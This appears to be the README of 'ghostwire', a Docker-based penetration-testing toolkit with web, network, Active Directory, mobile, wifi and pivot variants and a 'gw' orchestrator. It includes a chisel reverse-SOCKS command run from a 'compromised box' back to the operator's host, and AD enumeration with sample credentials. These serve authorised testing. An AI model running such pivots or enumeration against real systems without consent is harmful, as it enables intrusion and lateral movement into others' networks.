

<p align="center">
  
</p>

<h1 align="center">ghostwire</h1>

<p align="center">
  A lean <b>web · network · AD · mobile · wifi · pivot</b> toolkit that runs anywhere Docker runs.<br>
  Pull a variant, drop into a shell, run <code>gw recon target.com</code>.
</p>

<p align="center">
  <a href="#"></a>
  <a href="#"></a>
  <a href="#"></a>
  <a href="#"></a>
  <a href="#"></a>
  <a href="LICENSE"></a>
</p>

---

## Why ghostwire

The pitch in one line: from a clean machine to recon, fuzz, AD enum, pivot,
and a markdown report in minutes, on amd64 or arm64, without setup. The whole
engagement lives in one directory and the workflow is one command per phase.

```bash
gw new acme                       # creates the engagement directory
gw recon acme.com                 # subfinder | httpx | nuclei
gw web https://app.acme.com       # whatweb + wafw00f + nuclei + nikto + gobuster
gw ad 10.0.0.10 alice 'P@ss'      # nxc + kerbrute + bloodhound + certipy
gw report                         # consolidate everything into markdown
```

That is the value. Everything below is supporting detail.

| | ghostwire | Kali rolling (Docker) | Parrot Security (Docker) | Athena / BlackArch / community repos |
|---|---|---|---|---|
| Pull → first useful command | **~30 s** (toolchain pre-installed) | fast pull, then `apt install` per tool | minutes to pull (~4.7 GB) | varies, often slow or stale |
| Engagement workflow (`gw new`, `gw report`) | **yes** | none | none | none |
| SOCKS pivot first-class (`px`, pivot variant) | **yes** | DIY proxychains | DIY | DIY |
| Variants split by use case | **7** (web, net, ad, mobile, wifi, pivot, base) | 1 mono image | mono + `tools-*` | mono image |
| Image size per variant | ~2 GB specialised | 46 MB base, grows on install | ~4.7 GB | 3 to 6 GB |
| arm64 (Apple Silicon) | **yes** (web/ad/wifi amd64-only for upstream reasons) | yes | yes | partial or unmaintained |
| Pinned dependencies | **every git clone, every Go module** | apt rolling | apt rolling | rolling |
| Non-root by default | **yes** (ghost UID 1001) | no | no | usually no |
| Signed images (cosign keyless OIDC) | **yes** | no | no | no |
| SBOM + SLSA L2 provenance | **yes** | no | no | no |

If you want a repeatable engagement environment with reporting and pivot
already wired up, ghostwire is the shortest path. If you want a desktop OS
in a container with apt access to thousands of tools, pick Kali.

---

## Variants

| Image | Tools |
|-------|-------|
| **base** | `python3-venv`, `proxychains4`, `px`/`pxcurl`/`pxwget`, `gw` orchestrator, `ghost` user, `tini` |
| **web** | `ffuf`, `gobuster`, `nikto`, `sqlmap`, `wfuzz`, `whatweb`, `wafw00f`, `nuclei`, `xsstrike`, `testssl`, `arjun`, `commix`, `httpx`, `dnsx`, `katana`, `subfinder`, `waybackurls`, `gospider`, `gf`, `anew`, `assetfinder`, `jaeles` |
| **net** | `nmap`, `masscan`, `tcpdump`, `tshark`, `tcpflow`, `ngrep`, `chisel`, `socat`, `hydra`, `openvpn`, `sshuttle`, `wireguard-tools`, `ike-scan`, `onesixtyone`, `httpx`, `dnsx`, `subfinder` |
| **ad** | `nxc`, `bloodhound-python`, `certipy`, `kerbrute`, `responder`, `mitm6`, `coercer`, `impacket` wrappers, `enum4linux-ng`, `hashcat`, `john`, `hydra`, `aws`, `az`, `gcloud`, `scoutsuite`, `pacu`, `bulk_extractor` |
| **mobile** | `jadx`, `apktool`, `adb`, `frida-tools`, `objection`, `radare2`, `ipatool`, `mobsfscan`, `androguard`, `apkid`, `quark-engine`, `MobSF`, `yara` |
| **wifi** | `aircrack-ng`, `reaver`, `pixiewps`, `hcxdumptool`, `hcxtools`, `tshark`, `tcpdump`, `iw`, `wpasupplicant` |
| **pivot** | `microsocks`, `chisel`, `sshuttle`, `openvpn`, `wireguard-tools`, `openssh-server`, `iptables`, `nftables` |

All variants ship: SecLists at `$SECLISTS` (web/net/ad), `gw` orchestrator, `px`/`pxcurl`/`pxwget` SOCKS5 wrappers, `savehere`/`out`/`session-log`/`gw-versions`/`update-seclists`, non-root `ghost` user, healthcheck.

---

## Quick start (pull, don't build)

```bash
# 1. Make a host directory the container can write to.
#    Container runs as ghost (uid 1001), so the host directory needs
#    matching ownership.
mkdir -p ./artifacts && sudo chown 1001:1001 ./artifacts

# 2. Pull and run.
docker pull ghcr.io/hacktivesec/ghostwire-web:latest
docker run --rm -it --network host \
  -e SOCKS5_HOST=127.0.0.1 -e SOCKS5_PORT=1080 \
  -v "$PWD:/work" -v "$PWD/artifacts:/shared" \
  ghcr.io/hacktivesec/ghostwire-web:latest

# 3. Inside the container:
gw new test
gw recon example.com
```

Or with compose (default = pull from GHCR):

```bash
docker compose up -d web
docker compose exec web bash
```

### Verify the image (cosign)

```bash
cosign verify \
  --certificate-identity-regexp 'https://github.com/hacktivesec/ghostwire/.*' \
  --certificate-oidc-issuer https://token.actions.githubusercontent.com \
  ghcr.io/hacktivesec/ghostwire-web:latest
```

---

## The `gw` orchestrator (full command set)

`gw` runs the common flows and stores output in `/shared/<client>/<UTC-date>/`.
Full reference:

```bash
gw new acme                       # /shared/acme/2026-05-01_103045/{recon,scans,...}
gw use acme                       # switch active engagement
gw ls                             # show all engagements
cdgw                              # cd into the active one

gw recon acme.com                 # subfinder | httpx | nuclei pipeline
gw web https://app.acme.com       # whatweb + wafw00f + nuclei + nikto + gobuster
gw fuzz "https://acme.com/FUZZ"   # ffuf with directory-list-2.3-medium
gw ad 10.0.0.10 alice 'P@ss'      # nxc + kerbrute + bloodhound + certipy
gw mobile app.apk                 # jadx + apkid + apktool + mobsfscan
gw wifi wlan0                     # airodump capture

gw report                         # consolidate everything into markdown
```

Output goes into `/shared/<client>/<date>/{recon,scans,creds,loot,reports,logs}`.
Set `ENGAGEMENT_DIR` to override the active engagement; otherwise `gw new` and
`gw use` persist it to `~/.config/ghostwire/active`.

`gw help` for the full list.

---

## SOCKS pivot (the whole point)

### Run the pivot variant as your jumpbox

```bash
docker run -d --name pivot --network vpn \
  -p 127.0.0.1:1080:1080 -p 8080:8080 \
  ghcr.io/hacktivesec/ghostwire-pivot:latest \
  gw-socks5 1080
```

### Or use chisel reverse SOCKS

```bash
# This side (operator):
docker run --rm -it -p 8080:8080 ghcr.io/hacktivesec/ghostwire-pivot:latest \
  gw-chisel-server 8080

# Compromised box:
chisel client your-host:8080 R:1080:socks
```

### Use the pivot from any other variant

```bash
docker run --rm -it --network vpn \
  -e SOCKS5_HOST=pivot -e SOCKS5_PORT=1080 \
  -v "$PWD:/work" -v "$PWD/artifacts:/shared" \
  ghcr.io/hacktivesec/ghostwire-web:latest

# Then:
px curl -I https://internal.target
px gw recon internal.target
```

> Raw SYN/UDP scans and packet capture do **not** traverse SOCKS5. They're L3.

---

## Files in / out

* `/work`, your repo or workspace, bind-mounted r/w
* `/shared`, artifacts dir, mapped to `./artifacts/` on the host
* `/shared/<client>/<UTC-date>/`, created by `gw new`

```bash
savehere report.txt                  # copy to /shared
out nmap -sC -sV target              # tee output to /shared/nmap_<ts>.log
gw-versions /shared/versions.txt     # tool manifest
```

---

## Build locally (don't pull from GHCR)

```bash
make base          # build shared base first (one time)
make build-all     # build base + every variant locally
make test-all      # smoke-test every variant
make web           # build & start one variant
make shell-ad      # shell into ad container
make prune         # remove all images and clean buildx cache
```

Local images are tagged `ghostwire-<variant>:dev`. Compose picks them up when
`GHOSTWIRE_IMAGE_TAG=local`.

---

## For procurement and supply chain reviewers

Every push to `main` and every `v*` tag rebuilds and publishes from a clean
runner with verifiable provenance:

- **Registry**: `ghcr.io/hacktivesec/ghostwire-{base,web,net,ad,mobile,wifi,pivot}`
- **Architectures**: `linux/amd64` and `linux/arm64`
- **Cosign**: keyless OIDC signature on every digest, anchored to the GitHub
  Actions workflow identity (no shared signing key, no rotation drift)
- **SLSA L2 build provenance**: attested and pushed alongside the image
- **SBOM**: syft SPDX, attached as image attestation
- **Trivy scan**: HIGH/CRITICAL surfaced in CI logs (non-blocking)
- **Pinned dependencies**: every git clone, every Go module, and the base OS
  image use immutable refs. Reproducible across rebuilds.
- **Non-root by default**: container drops to UID 1001 (`ghost`) before any
  workflow command runs.

Verify any tag before deploying:

```bash
cosign verify \
  --certificate-identity-regexp 'https://github.com/hacktivesec/ghostwire/.*' \
  --certificate-oidc-issuer https://token.actions.githubusercontent.com \
  ghcr.io/hacktivesec/ghostwire-web:latest
```

Full recipe and policy examples in [SECURITY.md](SECURITY.md).

---

## Common flows (consent / lab only)

```bash
# Subdomains → probe → fuzz
gw recon example.com
gw fuzz "https://example.com/FUZZ"

# Active Directory
gw ad 10.0.0.10 alice 'P@ss'

# Cloud audit
scoutsuite aws --access-keys-id <k> --secret-access-key <s>
pacu

# Mobile
gw mobile app.apk

# Forensics
bulk_extractor -o /shared/be_out disk.img
```

---

## Updating

* **SecLists**: `update-seclists` (in-container) refreshes to current upstream
* **Container itself**: `docker pull ghcr.io/hacktivesec/ghostwire-<variant>:latest`
* **Pin tracking**: dependabot opens weekly PRs for action and Docker FROM bumps

---

## Troubleshooting

| Symptom | Fix |
|---|---|
| `container name already in use` | `docker rm -f ghostwire-<variant>` or use `--name` |
| Windows path mounts fail | use forward slashes or `--mount` |
| SOCKS unreachable on Docker Desktop | set `SOCKS5_HOST=host.docker.internal` |
| arm64 build fails on a tool | open an issue with the variant + Dockerfile line |
| Healthcheck red | `docker logs <container>` and `smoke-test <variant>` |

---

## Intended use

**Red team / pentest / DFIR / training only, on systems you own or have explicit
written permission to test.** You are responsible for laws, contracts, and your
Rules of Engagement. See [SECURITY.md](SECURITY.md).

---

## Credits

ghostwire repackages work from many OSS projects. Each tool's licence applies in
the image where it ships; OCI labels capture provenance. Pinned tool versions
are listed in `Dockerfile.<variant>` and in this repo's `CHANGELOG.md`.
